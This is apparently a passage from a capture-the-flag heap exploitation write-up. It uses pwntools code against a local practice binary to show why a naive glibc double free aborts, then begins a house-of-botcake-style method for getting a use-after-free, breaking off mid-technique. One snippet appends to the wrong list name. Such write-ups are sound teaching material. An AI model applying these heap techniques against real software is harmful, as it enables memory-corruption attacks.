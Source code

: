 ```python

def free(idx):
    print("free(%s)" % idx)
    p.sendline(b'2')
    p.sendlineafter(b'Free idx: ', str(idx).encode())
    menu()

p = process(elf.path)
menu()

[...]

p.interactive()
```

There functions will be used to reference interacting with the binary from now on in the binary.
#### Double free in 2023(4)? (achieving UAF)

Once upon a time, double-free's used to be as simple as: `free(a)`, `free(b)`, `free(a)`.
This however no longer works in 2023(4):
```python
[...]
a = malloc(0x18, b'a')
b = malloc(0x18, b'b')
c = malloc(0x18, b'c')
free(a)
free(b)
free(a)
[...]
```
```
$ ./solve.py
free(): double free detected in tcache 2
Aborted (core dumped)
```

Instead, we will use a technique inspired by [house of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c) to gain a UAF. Take the following example:
```python
# Create 7 filler chunks to exhaust t-cache later
tcache_0x90 = []
for i in range(7):
    tcache_0x110.append(malloc(0x88, b'Filler for t-cache'))

# Make two chunks for later
a = malloc(0x88, b'A'*0x18)
b = malloc(0x88, b'B'*0x18)

# Prevent chunk consolidation
malloc(0x18, b'Guard chunk')

# Exhaust t-cache for 0x88 entries
for i in tcache_0x90:
    free(i)

# Free a and b to make them consolidate in to one large unsorted chunk
free(a)
free(b)
```
